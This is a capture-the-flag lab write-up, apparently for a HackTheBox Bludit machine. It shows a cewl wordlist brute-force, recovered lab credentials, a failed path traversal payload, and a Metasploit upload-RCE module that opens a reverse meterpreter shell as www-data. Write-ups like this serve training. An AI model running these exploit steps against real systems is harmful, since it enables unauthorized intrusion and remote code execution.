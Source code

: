 ## 4 - Search

TODO.txt content

```
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
```
Fergus might be a username.
<br>
The admin page has a title "Bludit" which have a path traversal CVE for admins (i'm assuming it needs login?!?!) <br>
login page had XSS (but not aplicable i guess, no target to activate the XSS) <br>

search: bludit admin vulns
Result: Bludit 3.9.2 - Authentication Bruteforce Mitigation Bypass 
src: https://www.exploit-db.com/download/48746

## 5 - Try the exploit

Generate a password list based in the website contents (since the other did not provide results)

```
cewl -w brute.txt -m 5 $IP
```

Creds
```
fergus:RolandDeschain
```

## 6 - login and check 

Not much to do in the dashboard:
- create new content (the most interesting)

Lets try the path traversal CVE
```
/plugin-backup-download?file=../../../index.php
```

It does not work!

Lets search... Another CVE (RCE by uploading .php as .jpeg)

```
msfconsole

search bludit
use exploit/linux/http/bludit_upload_images_exec
set RHOSTS 10.10.10.191
set BLUDITUSER fergus
set BLUDITPASS RolandDeschain
set LHOST 10.10.15.104

run
meterpreter > shell

whoami
$ www-data
```
